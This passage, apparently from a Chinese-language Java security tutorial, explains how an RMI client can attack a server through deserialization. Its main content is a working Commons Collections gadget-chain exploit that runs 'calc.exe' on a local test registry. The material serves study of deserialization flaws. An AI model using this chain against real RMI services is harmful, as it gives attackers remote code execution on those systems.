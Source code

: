 ![image-20250307120932661](https://gitee.com/ling-x5/img/raw/master/image-20250307120932661.png)

### 客户端攻击服务端

这个就是在客户端调用远程服务时，客户端的代理 Stub 序列化参数，再由服务端的 Skele 进行反序列化，造成的攻击场景

我们需要为远程接口提供一个接受 Object 对象的接口方法

![image-20250307123833882](https://gitee.com/ling-x5/img/raw/master/image-20250307123833882.png)

启动服务

![image-20250307123918890](https://gitee.com/ling-x5/img/raw/master/image-20250307123918890.png)

编写客户端的 payload，把恶意的对象传进去就可以，这个比较简单

```java
package com.lingx5.RMI;

import com.lingx5.Calculator;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;

public class c2sExp {
    public static void main(String[] args) throws Exception{
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transforms);
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(),new ConstantTransformer(null));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lingx5");
        HashMap<Object, Object> HashMap = new HashMap<>();
        HashMap.put(tiedMapEntry,"lingx5");
        Field factory = LazyMap.class.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);
        lazyMap.remove("lingx5");
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Calculator calculator = (Calculator) registry_remote.lookup("caculator");
        calculator.sayGood(HashMap);

    }
}
```
